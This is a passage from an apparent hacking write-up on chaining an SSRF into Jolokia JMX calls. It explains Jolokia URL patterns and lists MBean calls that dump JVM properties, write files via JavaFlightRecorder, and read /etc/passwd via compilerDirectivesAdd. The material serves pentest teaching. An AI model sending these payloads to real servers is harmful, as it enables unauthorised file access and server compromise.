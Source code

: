 One thing to note is that in the php script, when the call to jolokia succeeds, we are often blind because in `print ("{\"Success\": \"$arg1/$arg2\",\"Code\":\"".$ret['value']."\"}");`, when `$ret['value']` is a dict or array, the string concatenation will only output a generic `Object` or `Array` keyword instead of its content. This makes us blind, and this s*cks. 

This is why it was important to have a local replica to enumerate stuff and figure out what can be done. Moreover, most of jolokia's return values are json object, so we're often blind. 

Some information can still be acquired by generating stacktraces and find out if the instance (MBean) is found or not, whether the method called exists or not, etc. 

Now, let's spend a few minutes making [Bernstein](https://twitter.com/bernsteining) happy by reading some doc!

https://jolokia.org/reference/html/protocol.html#jolokia-operations

Common url patterns for jolokia are the following (POST ommited, as we can only reach it with GET):

- http://localhost:8080/jolokia?p=/read/jboss.jmx:alias=jmx%2Frmi%2FRMIAdaptor/State
- http://localhost:8080/jolokia/exec/java.lang:type=Memory/gc
- http://localhost:8080/jolokia/list?maxObjects=100
- http://localhost:8080/jolokia/read/java.lang:type=*/HeapMemoryUsage
- http://localhost:8080/jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
- http://localhost:8080/jolokia/search/*:j2eeType=J2EEServer,*
- http://localhost:8080/jolokia/write/java.lang:type=Memory/Verbose/true

To sum'up the pattern, it's something like: `/jolokia/action/package:MBeanSelector/method/param1/param2`, and `/` characters must be encoded with `!/`. Cool!


# Useful MBeans found

Locally, MBeans can be listed with `/jolokia/list` or with `jconsole`. 

<img class="img_med" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/jolokia-list.png" alt="jolokia-list">

- Get help on the `DiagnosticCommand`
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*`
    <img class="img_full" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/jolokia-diagnostic-help.png" alt="jolokia-diagnostic-help">
    - Notice that here, the `value` key is a string and not an array/dict, so we wouldn't be blind on the real target with the SSRF either!

- Get JVM Informations with vmSystemProperties
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties`
    <img class="img_full" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/jolokia-diagnostic-vmproperties.png" alt="jolokia-diagnostic-vmproperties">
    - Cool, now we have tomcat's absolute location

- File write with JavaFlightRecorder
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo`
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrDump/name=<ID_FROM_jfrStart>`
    - For this one, I wrote files, but did not take the time to make sure that we control part of its content, exercise left to the reader! :]

- File read with compilerDirectivesAdd
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd`
    <img class="img_full" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/jolokia-diagnostic-addCompiler.png" alt="jolokia-diagnostic-addCompiler">
    - Could not load, here's its content, thanks for the fish! *facepalm*
